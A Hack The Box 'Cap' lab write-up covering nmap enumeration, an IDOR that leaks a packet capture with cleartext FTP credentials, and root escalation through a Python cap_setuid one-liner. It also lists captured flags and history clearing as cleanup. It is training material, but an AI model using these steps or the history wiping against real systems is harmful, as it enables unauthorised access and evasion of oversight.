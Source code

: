 # HTB: Cap

**OS:** Ubuntu 20.04.2  
**Difficulty:** Easy  
**Date:** 2025-07-21  
**Box IP:** 10.10.10.245  
**Local IP:** 10.10.14.16  

---

## Engagement Overview

**Objectives:**

- Discover and exploit an IDOR (Insecure Direct Object Reference)
- Extract credentials from exposed packet capture
- Escalate privileges to root via Linux capabilities

---

## Service Enumeration

### Nmap - Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.245
```
**Result:**
- Port 21 – FTP (vsftpd 3.0.3)
- Port 22 – SSH (OpenSSH 8.2p1)
- Port 80 – HTTP (Gunicorn, Python-based web server)

### Nmap - Service Enumeration
```bash
nmap -p 21,22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.245
```

Key Observations:
- Gunicorn dashboard exposed on HTTP port
- No anonymous FTP access
- SSH accessible with potential brute-force vector if creds are found

### Nmap - Vulnerability Scan
```bash
nmap --script vuln -oN scans/vuln.txt 10.10.10.245
```

Findings:
- Possible CSRF forms on `/`, `/data/1`, `/ip`
- Slowloris DoS (CVE-2007-6750) likely vulnerable (not exploited)

---

## Initial Access – IDOR Exploitation

**Discovery:**
The web app exposes capture downloads via predictable `/data/<id>` URLs.

Browsing to `/data/0` revealed a capture not generated by the current session — classic IDOR vulnerability.

**Credential Extraction:**
Downloaded capture analyzed in Wireshark revealed cleartext FTP credentials:

```
USER: nathan
PASS: Buck3tH4TF0RM3!
```

---

## Foothold

### FTP Access
```bash
ftp 10.10.10.245
# Login successful with leaked credentials
```

Enumerated home directory and retrieved `user.txt`:
```bash
ftp> get user.txt
e64084b4cf1836347593df12f6a16b75
```

### SSH Access
Logged in successfully as `nathan` using same credentials.

---

## Privilege Escalation

### LinPEAS Findings
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Linux capabilities allow `python3.8` to run with `cap_setuid` — letting it change UID without setuid bit. This means we can invoke root shell with Python directly.

### Exploit
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

Successfully escalated to root. Retrieved `root.txt`:
```
f0f8a2a1d4bfdea7688e471cf3ad04a4
```

---

## Post-Exploitation

### Cleanup
- Removed `linpeas.sh`
- Cleared `.bash_history`

### Credentials & Flags
- `user.txt`: `e64084b4cf1836347593df12f6a16b75`  
- `root.txt`: `f0f8a2a1d4bfdea7688e471cf3ad04a4`  

---

## Tools Utilized
- `nmap`, `ssh`, `ftp`, `python3`
- Wireshark
- LinPEAS

---

## Key Takeaways

**Skills Required:**
- Web enumeration
- Packet analysis

**Skills Learned:**
- Insecure Direct Object Reference (IDOR)
- Exploiting Linux capabilities for privilege escalation
